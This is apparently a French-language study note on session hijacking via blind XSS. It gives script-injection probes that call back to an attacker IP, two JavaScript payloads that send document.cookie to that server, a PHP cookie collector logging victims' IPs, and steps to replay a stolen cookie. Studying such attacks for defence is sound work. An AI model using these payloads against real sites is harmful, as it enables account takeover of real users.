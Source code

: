 # Session Hijacking

***

<mark style="color:blue;">**1. Introduction aux attaques XSS et au détournement de session (Session Hijacking)**</mark>

Les applications web modernes utilisent des **cookies** pour maintenir la session d'un utilisateur lors de différentes sessions de navigation. Cela permet à l'utilisateur de ne se connecter qu'une seule fois et de conserver sa session active même s'il revient sur le même site plus tard.

Cependant, si un utilisateur malveillant parvient à obtenir les données des cookies du navigateur de la victime, il pourrait alors accéder au compte de la victime sans avoir besoin de connaître ses identifiants. Cette attaque est connue sous le nom de **détournement de session** ou **vol de cookies**.

Pour réaliser cette attaque, un attaquant pourrait injecter du **JavaScript** dans la page de l'application cible. Si le script malveillant s'exécute, l'attaquant peut récupérer les cookies de la victime et les envoyer à son serveur.

***

<mark style="color:blue;">**2. Détection d'un XSS aveugle (Blind XSS)**</mark>

Un **XSS aveugle** se produit lorsque la vulnérabilité est déclenchée sur une page à laquelle nous n'avons pas accès directement. Par exemple, cela peut se produire avec des formulaires qui ne sont accessibles que par certains utilisateurs comme les **administrateurs** (p. ex. : formulaires de contact, commentaires, tickets de support).

Dans ce type de cas, nous ne pouvons pas voir immédiatement l'effet de notre injection de code. Pour détecter cette vulnérabilité, nous allons utiliser une technique qui consiste à injecter un **script distant** dans le formulaire. Si ce script est exécuté, il enverra une requête HTTP à notre serveur, ce qui nous permettra de savoir si la page est vulnérable.

**Étapes pour détecter un XSS aveugle :**

1.  **Injection d'un script** dans un champ de formulaire. Par exemple :

    ```html
    <script src="http://NOTRE_IP/username"></script>
    ```

    Cela permettra à notre serveur de recevoir une requête pour identifier quel champ a été vulnérable (ici, `username`).
2.  **Configurer un serveur pour écouter les requêtes HTTP :**

    ```bash
    mkdir /tmp/tmpserver
    cd /tmp/tmpserver
    sudo php -S 0.0.0.0:80
    ```
3.  **Tester chaque champ du formulaire** en injectant des scripts comme :

    ```html
    <script src="http://NOTRE_IP/username"></script>  # pour le champ username
    <script src="http://NOTRE_IP/fullname"></script>  # pour le champ full name
    ```
4. **Vérifier les requêtes reçues sur notre serveur** pour identifier le champ vulnérable.

***

<mark style="color:blue;">**3. Exploitation de la vulnérabilité XSS et détournement de session**</mark>

Une fois qu'un **XSS aveugle** est confirmé, nous pouvons utiliser un **payload JavaScript** pour voler le cookie de session de la victime. Cela nécessite un script JavaScript qui envoie les cookies de la victime à notre serveur.

**Exemples de payloads XSS pour le vol de cookies :**

*   **Payload 1** :

    ```javascript
    document.location = 'http://NOTRE_IP/index.php?c=' + document.cookie;
    ```
*   **Payload 2** (moins suspect) :

    ```javascript
    new Image().src = 'http://NOTRE_IP/index.php?c=' + document.cookie;
    ```

Dans ces deux cas, le cookie de session de la victime sera envoyé à notre serveur. Nous pouvons sauvegarder ce cookie avec un script PHP sur notre serveur :

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Ce script enregistre les cookies envoyés dans un fichier `cookies.txt` et peut contenir des informations comme l'IP de la victime et les cookies volés.

***

<mark style="color:blue;">**4. Utilisation du cookie volé pour l'accès à la session de la victime**</mark>

Une fois que nous avons le cookie de session, nous pouvons l'utiliser pour accéder au compte de la victime. Voici comment procéder :

1. Ouvrir l'application dans un navigateur (par exemple, Firefox).
2. Aller dans **Developer Tools** (Outils de développement) et activer la **Storage Bar**.
3. Cliquer sur le bouton `+` en haut à droite et ajouter un nouveau cookie en utilisant le nom du cookie et la valeur obtenue du fichier `cookies.txt`.

Par exemple :

* **Nom** : `cookie`
* **Valeur** : `f904f93c949d19d870911bf8b05fe7b2`

Après avoir ajouté ce cookie, nous pouvons rafraîchir la page, et nous serons connectés en tant que la victime.

***
